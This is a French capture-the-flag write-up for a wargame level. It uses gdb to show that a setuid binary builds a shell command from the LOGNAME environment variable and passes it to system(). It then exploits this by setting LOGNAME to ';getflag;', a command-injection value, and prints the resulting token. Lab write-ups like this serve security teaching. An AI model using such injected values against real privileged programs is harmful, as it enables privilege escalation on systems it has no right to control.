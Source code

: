 ## Level 07: 
  
1. 
    Suite au login, on remarque un fichier executable:
    ```bash
    ./level07
    ```
    Output:
    ```bash 
    level07
    ```
    Il affiche simplement le nom du programme. Il va donc falloir examiner et analyser le code source.  
2.  Analyse du code source  
    Pour analyser le code source nous allons utiliser GDB. GDB (GNU Debugger) est un outil utilisé pour déboguer les programmes en C, C++, et d'autres langages compilés.  
    On va utiliser les commandes gdb suivantes:
    ```bash
    gdb ./level07
    (gdb) info functions   # Liste les fonctions du binaire  
    (gdb) break main       # Ajoute un point d'arrêt sur la fonction main  
    (gdb) run              # Exécute le programme jusqu'au point d'arrêt  
    (gdb) disassemble main # Désassemble la fonction main
    ```

    ```bash
    (gdb) info functions   # Liste les fonctions du binaire 
    ```
    Output:
    ```bash
    Non-debugging symbols:
    0x08048384  _init                   
    0x080483d0  setresuid               
    0x080483d0  setresuid@plt           
    0x080483e0  geteuid                 
    0x080483e0  geteuid@plt             
    0x080483f0  getegid                 
    0x080483f0  getegid@plt             
    0x08048400  getenv                  
    0x08048400  getenv@plt              
    0x08048410  system                  
    0x08048410  system@plt              
    0x08048420  __gmon_start__          
    0x08048420  __gmon_start__@plt      
    0x08048430  __libc_start_main       
    0x08048430  __libc_start_main@plt   
    0x08048440  asprintf                
    0x08048440  asprintf@plt            
    0x08048450  setresgid               
    0x08048450  setresgid@plt           
    0x08048460  _start                  
    0x08048490  __do_global_dtors_aux   
    0x080484f0  frame_dummy             
    0x080485b0  __libc_csu_init         
    0x08048620  __libc_csu_fini         
    0x08048622  __i686.get_pc_thunk.bx  
    0x08048630  __do_global_ctors_aux   
    0x0804865c  _fini                   
    ```
    Ici, 2 fonctions utilisées nous intéresse: `getenv`, `system`.  
    ```bash
    (gdb) disassemble main   # Liste les fonctions du binaire 
    ```
    Output:
    ```bash
    Dump of assembler code for function main:                  
    0x08048514 <+0>:     push   %ebp                        
    0x08048515 <+1>:     mov    %esp,%ebp                   
    0x08048517 <+3>:     and    $0xfffffff0,%esp            
    0x0804851a <+6>:     sub    $0x20,%esp                  
    0x0804851d <+9>:     call   0x80483f0 <getegid@plt>     
    0x08048522 <+14>:    mov    %eax,0x18(%esp)             
    0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>     
    0x0804852b <+23>:    mov    %eax,0x1c(%esp)             
    0x0804852f <+27>:    mov    0x18(%esp),%eax             
    0x08048533 <+31>:    mov    %eax,0x8(%esp)              
    0x08048537 <+35>:    mov    0x18(%esp),%eax             
    0x0804853b <+39>:    mov    %eax,0x4(%esp)              
    0x0804853f <+43>:    mov    0x18(%esp),%eax             
    0x08048543 <+47>:    mov    %eax,(%esp)                 
    0x08048546 <+50>:    call   0x8048450 <setresgid@plt>   
    0x0804854b <+55>:    mov    0x1c(%esp),%eax             
    0x0804854f <+59>:    mov    %eax,0x8(%esp)              
    0x08048553 <+63>:    mov    0x1c(%esp),%eax             
    0x08048557 <+67>:    mov    %eax,0x4(%esp)              
    0x0804855b <+71>:    mov    0x1c(%esp),%eax             
    0x0804855f <+75>:    mov    %eax,(%esp)                 
    0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>   
    0x08048567 <+83>:    movl   $0x0,0x14(%esp)             
    0x0804856f <+91>:    movl   $0x8048680,(%esp)           
    0x08048576 <+98>:    call   0x8048400 <getenv@plt>      
    0x0804857b <+103>:   mov    %eax,0x8(%esp)              
    0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)        
    0x08048587 <+115>:   lea    0x14(%esp),%eax             
    0x0804858b <+119>:   mov    %eax,(%esp)                 
    0x0804858e <+122>:   call   0x8048440 <asprintf@plt>    
    0x08048593 <+127>:   mov    0x14(%esp),%eax             
    0x08048597 <+131>:   mov    %eax,(%esp)                 
    0x0804859a <+134>:   call   0x8048410 <system@plt>      
    0x0804859f <+139>:   leave                              
    0x080485a0 <+140>:   ret                             
    End of assembler dump.                                  
    ```
    Ici, en analysant la fonction main, on comprend qu'un appel a `getenv`permet de récupérer la valeur d'une variable d'environnement à l'adresse: `0x8048680`:
    ```bash
    0x0804856f <+91>:    movl   $0x8048680,(%esp)           
    0x08048576 <+98>:    call   0x8048400 <getenv@plt>      
    0x0804857b <+103>:   mov    %eax,0x8(%esp)  
    ```  
    en analysant la suite du code désassemblé, on comprend que la valeur de la variable d'environnement est utilisée pour construire une commande avec `asprintf` en la combinant à une chaîne de format située a l'adresse `0x8048688`:
    ```bash
    0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)        
    0x08048587 <+115>:   lea    0x14(%esp),%eax             
    0x0804858b <+119>:   mov    %eax,(%esp)                 
    0x0804858e <+122>:   call   0x8048440 <asprintf@plt>    
    0x08048593 <+127>:   mov    0x14(%esp),%eax             
    ```
    Enfin, cette chaîne est ensuite éxecutée par un à la fonction `system`.  
    On peut connaître la valeur de la variable d'environnement ainsi que celle de la chaîne de format à laquelle elle est combinée par `asprintf`de la manière suivante:
    - Pour la variable d'environnement:
    ```bash
    (gdb) x/s 0x8048680
    ```
    Output:
    ```bash
    0x8048680:       "LOGNAME"  
    ```
    - Pour la chaîne de format:
    ```bash
    (gdb) x/s 0x8048688
    ``` 
    Ouput: 
    ```bash
    0x8048688:       "/bin/echo %s " 
    ```
    Ainsi, l'appel à la fonction `system` se fait avec comme argument : `/bin/echo $LOGNAME`.
  
3. Exploitation de la faille  
    Suite a l'analyse du code désassemblé, une faille se présente à nous: il suffit de modifier la valeur de la variable d'environnement `LOGNAME` par `;getflag;`:
    ```bash
    export LOGNAME=";getflag;"
    ```
    Enfin, il suffit d'éxecuter le programme `level07`.
    Output:
    ```bash
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
    ```